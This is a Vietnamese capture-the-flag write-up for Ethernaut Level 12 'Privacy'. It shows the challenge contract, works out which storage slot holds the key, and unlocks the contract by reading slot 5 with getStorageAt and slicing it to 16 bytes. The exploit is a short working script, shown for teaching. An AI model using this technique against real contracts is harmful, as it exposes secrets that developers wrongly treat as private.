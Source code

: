 # Level 12: Privacy
##  Difficulty: ★★★☆☆

## Given contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(block.timestamp);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```
## Target
Tìm cách unlock contract.

## Phân tích
- Quan sát hàm unlock thì ta cần giá trị của data[2]  

```solidity
function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
}
```
- Nhìn qua lượt các biến 
```solidity
bool public locked = true;
uint256 public ID = block.timestamp;
uint8 private flattening = 10;
uint8 private denomination = 255;
uint16 private awkwardness = uint16(block.timestamp);
bytes32[3] private data;
 
```
- Slot 0 : locked
- Slot 1: ID
- Slot 2: flattening, denomination, awkardness
- Slot 3, 4, 5, 6: lần lượt là các biến của data
=> data[2] ở slot 5  

## Solution
- Lấy giá trị của data[2] ở slot 5  

```javascript
str = await web3.eth.getStorageAt(instance, 5);
0x682b111ececfad832e498e84761b9326f69965c5131428c6e6a18d477ba4c52d  
```  

- Vì require chỉ cần 16 byte đầu 
```javascript
key=str.slice(0,34)

```
=> Unlock contract
```javascript
await contract.unlock(key);

```
**Submit** -> Done